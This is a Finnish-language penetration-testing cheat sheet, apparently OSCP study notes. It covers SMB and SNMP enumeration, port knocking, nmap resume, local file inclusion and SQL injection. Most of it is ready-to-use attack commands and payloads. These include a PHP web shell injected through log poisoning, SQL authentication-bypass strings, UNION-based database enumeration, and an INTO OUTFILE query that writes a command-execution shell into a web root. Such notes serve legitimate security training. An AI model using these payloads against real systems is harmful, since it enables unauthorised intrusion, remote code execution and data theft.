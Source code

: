 ## SMB login
 * smbclient //THINC/wwwroot -I <IP> -N

## Lataa SMB-kansion sisältö rekursiivisesti
 * smbclient '//<IP>/tmp' -N -c 'prompt OFF;recurse ON;cd ;mget *'

## SMB checklist
 * https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
 * http://virgil-cj.blogspot.com/2018/02/enumeration-is-key_6.html

## SNMP enumerointi
 * snmp-check <IP> -c <public/private/community>

## Port-knocking
 * for x in 4000 5000 6000; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x <IP>; done

## Portit
 * FTP: 21 (datan siirto portin 20 kautta)
 * SSH: 22
 * SMB: 139, 445
 * MySQL: 3306
 * RDP: 3389
 
## Nmap resume
nmap -oN your-results.nmap $HOST
Ctrl-C^ here
// then later
nmap --resume your-results.nmap


# Webhommat

* Jos ohjelma on open source, lataa sorsat ja katso mistä paikasta voisi löytää versionumeron
 - Kun tiedetään ladatun version versionumero, voidaan etsiä paikkoja, joissa se mainitaan: 
  * grep -R <versionumero> .
  * Tarpeen mukaan putkita vielä: | awk -F: '{print $1}' | uniq

## LFI/RFI
 * Voi ajaa joko paikallista tai omaa koodia
 * Jos saa lokin kontaminoitua esim. Netcatilla laittaa: <?php echo shell_exec($_GET['cmd']);?>
  => Voi ajaa koodia, kun includoi esim. c:\xampp\apache\logs\access.log
 * Null bytellä (%00) lopussa toimii kommenttimerkin tavoin, kuten SQL injektiossa

## SQLi:
 * https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html
 * https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/
 * Auth bypass: wronguser' or 1=1;# TAI wronguser' or 1=1 LIMIT 1;#
 * UNION-hyökkäystä varten enumeroi kolumnien määrä:
   - ?id=1 order by <numero>
   - Kokeile UNIONia tämän jälkeen:
     - ?id=1 union all select 1,2,3,4
     - ?id=1 union all select 1,@@version,3,4
     - ?id=1 union all select 1,2,3,table_name FROM information_schema.tables
 * Shellin teko:
  - ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'